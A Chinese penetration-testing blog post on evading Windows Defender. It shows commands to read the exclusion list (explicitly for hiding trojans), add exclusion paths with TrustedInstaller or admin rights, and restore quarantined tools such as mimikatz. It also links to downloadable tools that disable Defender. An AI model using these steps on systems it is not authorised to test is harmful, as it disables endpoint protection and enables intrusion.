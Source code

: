 ```yaml
---
title: 渗透测试中的 Windows Defender 操作
description: 渗透测试中的 Windows Defender 操作
pubDate: 11 08 2024
image: https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C-18.png?imageSlim?imageSlim
categories:
  - 网络安全
tags:
  - 渗透测试
---
```


Windows Defender（现称为 Microsoft Defender Antivirus）是微软为 Windows 系统提供的内置防病毒解决方案，旨在提供实时保护，抵御病毒、恶意软件等潜在威胁。

## 查看 Windows Defender版本

我们可以在 Windows 安全中心的关于中，查看当前 WD 的版本

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-1.png?imageSlim)

这个版本会以文件名显示在程序文件夹中，目标目录为 `C:\ProgramData\Microsoft\Windows Defender\Platform\`，不过普通用户无访问权限

```cmd
dir "C:\ProgramData\Microsoft\Windows Defender\Platform\" /od /b
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-3.png?imageSlim)

需要有管理员权限才可以

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-2.png?imageSlim)

不过有的时候，cmd 查看结果是空。比如这样

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-4.png?imageSlim)

除了 cmd 外，powershell 也可以，而且 powershell 不论普通还是管理员都可以查看

```powershell
Get-MpComputerStatus | Select-Object -Property AMProductVersion
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-5.png?imageSlim)

所以在目标有 powershell 的情况下，可以在普通权限的 cmd 中调用 powershell 去查看

```cmd
powershell -command "Get-MpComputerStatus | Select-Object -Property AMProductVersion"
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-6.png?imageSlim)

而且有时查看文件名的方式会出现空的情况，这时也可以用这种方法去查看

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-7.png?imageSlim)

## 查看排除列表

我们可以查看 WD 排除了哪些位置从而在这些目录存放木马，比如目前的排除项如下

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-8.png?imageSlim)

在 cmd 中使用命令查看，而且不需要管理员权限

```shell
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-9.png?imageSlim)

powershell 命令如下，并且同样不需要管理员权限

```powershell
Get-MpPreference | select ExclusionPath
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-10.png?imageSlim)

## 添加查杀排除列表

我们可以去添加查杀排除列表，在 cmd 下运行的话，需要 TrustedInstaller 权限

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths" /v "c:\test" /d 0 /t REG_DWORD /f
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-11.png?imageSlim)

我们可以使用 `AdvancedRun` 去执行

```
AdvancedRun.exe /EXEFilename "%windir%\system32\cmd.exe" /CommandLine '/c reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths" /v "c:\test" /d 0 /t REG_DWORD /f' /RunAs 8 /Run
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-12.png?imageSlim)

在普通用户下执行会弹出 UAC，在管理员权限下就是直接添加，没有弹出 UAC。如果没有 TrustedInstaller 权限的话，我们可以使用管理员权限的 powershell 去操作

```
Add-MpPreference -ExclusionPath "C:\test"
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-13.png?imageSlim)

## 恢复被隔离文件

WD 有一个叫做 `mpcmdrun.exe` 的程序，它可以操作被 WD 处理的文件，而且只能在终端中运行。位置一般就在 `C:\Program Files\Windows Defender`

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-14.png?imageSlim)

以下操作需要在管理员权限下查看

查看被隔离的文件列表

```
MpCmdRun.exe -Restore -ListAll
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C-19.png?imageSlim)

恢复指定名称的文件至原目录

```
MpCmdRun.exe -Restore -FilePath C:\test\mimikatz_trunk.zip
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C-20.png?imageSlim)

而且恢复后会默认加入白名单。

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C-21.png?imageSlim)

恢复所有文件至原目录

```
MpCmdRun.exe -Restore -All
```

查看指定路径是否位于排除列表中

```
MpCmdRun.exe -CheckExclusion -path C:\test
```

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C-22.png?imageSlim)

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C-23.png?imageSlim)

## 工具关闭

工具一

- 链接：https://pan.baidu.com/s/1sEeUe2CPsFPphiOj2sLWAg?pwd=3fa9
- 提取码：3fa9

GUI 程序，以管理员权限运行，重启生效，效果如下

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-15.png?imageSlim)

工具二

- 链接：https://pan.baidu.com/s/1S94M3hd2Lr8Ne1mKrCnwSQ?pwd=kl0p
- 提取码：kl0p

GUI 程序，以管理员权限运行，无需重启。效果如下

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-16.png?imageSlim)

若以普通用户运行，会弹出 UAC，最终效果如下

![](https://img.trtyr.top/images/blog/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%20Windows%20Defender%20%E6%93%8D%E4%BD%9C/008%20%E5%85%B3%E9%97%ADWindows%20Defender-17.png?imageSlim)
